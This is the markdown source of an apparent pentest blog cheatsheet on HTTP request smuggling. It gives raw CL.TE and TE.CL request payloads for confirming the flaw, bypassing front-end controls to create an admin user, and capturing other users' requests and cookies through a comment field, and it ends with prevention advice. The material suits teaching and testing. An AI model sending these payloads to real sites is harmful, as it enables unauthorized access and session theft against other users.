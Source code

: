 ```yaml
---
title: "HTTP request smuggling"
subtitle: ""
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>

tags: ["web", "penetest", "HTTPRS"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# HTTP request smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

HTTP request smuggling is an attack based on bad request handling between front and backend. The front end receive the user packet and transfer data or request to the backend. In that way you can chunk your original request and perform a double request in one paquet send. In that way you can bypass some protections.  

Different types of HTTP request smuggling exist, they are :

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

## Basics

- Basic CL.TE vulnerability

	You have to send a chunk request passing low content length to perform double requests in one, Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Connection: keep-alive  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 6  
	Transfer-Encoding: chunked  

	0  

	G
	{{< /highlight >}}
	
	
- Basic TE.CL vulnerability

	Same as previous with a well formed double request, here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5c  
	GPOST / HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Confirming vulnerabilities

- Confirming a CL.TE vulnerability via differential responses

	Using same technique as previous you can target a page you are sure about the response like 404, home or whatever. The request should return the page on the second header. Here is an example
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE 
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 35  
	Transfer-Encoding: chunked  

	0  

	GET /404 HTTP/1.1  
	X-Ignore: X

	{{< /highlight >}}
	
- Confirming a TE.CL vulnerability via differential responses

	Same thing as before just a different way to do it.  Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5e  
	POST /404 HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Bypass front-end protections
- Bypass front-end security controls, CL.TE vulnerability

	Here is an example of how you can bypass the front to make the back do what you want (that's an example and you really have to adapt it):
	
	{{< highlight http "lineNos=false" >}}
POST / HTTP/1.1  
Host: WEBSITE
Content-Type: application/x-www-form-urlencoded  
Content-Length: 139  
Transfer-Encoding: chunked  
    
0  
    
GET /admin/add?username=test&password=test HTTP/1.1  
Host: localhost  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 10  
    
x=
	{{< /highlight >}}
	
	
- Bypass front-end security controls, TE.CL vulnerability

	Same thing as before, just the necessary change:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-length: 4  
	Transfer-Encoding: chunked  

	87  
	GET /admin/add?username=test&password=test HTTP/1.1  
	Host: localhost  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}

## Advanced

- Exploiting HTTP request smuggling to capture other users' requests

	You need to be able to have a field that is at the end of your post data and to be able to update a site field or comment or post or ... In that way you will catch the other user requests by redirect it back to your data in your post request. Here is an example: 
	
	{{< highlight http "lineNos=false" >}}
	GET / HTTP/1.1  
	Host: WEBSITE 
	Transfer-Encoding: chunked  
	Content-Length: 324  

	0  

	POST /post/comment HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 400  
	Cookie: session=YOURCOOKIE

	csrf=CSRFTOKEN&postId=2&name=YOURNAME&email=EMAIL&comment=
	
	
	{{< /highlight >}}


## How to prevent them

How can implement a rejection of wierd / malformed request or also do these following actions :

-   Disable reuse of back-end connections, so that each back-end request is sent over a separate network connection.
-   Use HTTP/2 for back-end connections, as this protocol prevents ambiguity about the boundaries between requests.
-   Use exactly the same web server software for the front-end and back-end servers, so that they agree about the boundaries between requests.